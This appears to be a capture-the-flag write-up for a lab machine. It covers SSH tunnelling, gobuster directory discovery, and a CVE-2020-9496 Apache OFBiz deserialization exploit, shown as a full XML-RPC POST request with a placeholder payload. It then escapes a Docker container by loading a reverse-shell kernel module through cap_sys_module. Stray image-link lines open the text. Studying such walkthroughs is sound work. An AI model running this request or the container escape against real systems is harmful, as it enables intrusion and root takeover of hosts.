









Enumeration
After learning that Docker is running on this box, we can take a look at the process list for anything interesting:
ps -ef | grep docker

Since there is a docker container listening on port 8443, let's create an ssh tunnel to this port.
ssh -N -L 8443:127.0.0.1:8443 marcus@10.10.10.238
Upon navigating to the service, we get a 404, but we learn that it is a Tomcat server

Let's try to find valid directories on this tomcat server with gobuster
gobuster dir -u https://127.0.0.1:8443 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt -k

Interestingly, navigating to a valid directory redirects us to Apache OfBiz login page.

The bottom right corner of the page reveals that the version is 17.12.01, which has a public exploit available:
searchsploit ofbiz 17.12.01

Apache OfBiz Exploit
After some research, we find a nice guide on the exploit:
https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2020-9496
Download ysoserial, then create base64 encoded payloads like this:


With the payloads generated, make POST requests like this to get command execution:
POST /webtools/control/xmlrpc HTTP/1.1
Host: your-ip
Content-Type: application/xml
Content-Length: 4093
<?xml version="1.0"?>
<methodCall>
<methodName>ProjectDiscovery</methodName>
<params>
<param>
<value>
<struct>
<member>
<name>test</name>
<value>
<serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
</value>
</member>
</struct>
</value>
</param>
</params>
</methodCall>
With this, we get a shell as root on the docker container.
Docker Escape
With the following command, we can learn of all capabilities of the docker container:
capsh --print

cap_sys_module capability allows us to load kernel modules, and since the kernel is shared with the host, we can get code execution as the host's root user.
Here is a great guide on how to create a reverse shell kernel module:
https://greencashew.dev/posts/how-to-add-reverseshell-to-host-from-the-privileged-container/
With the kernel module created, we get root by inserting it with insmod
insmod reverseshell_module.ko
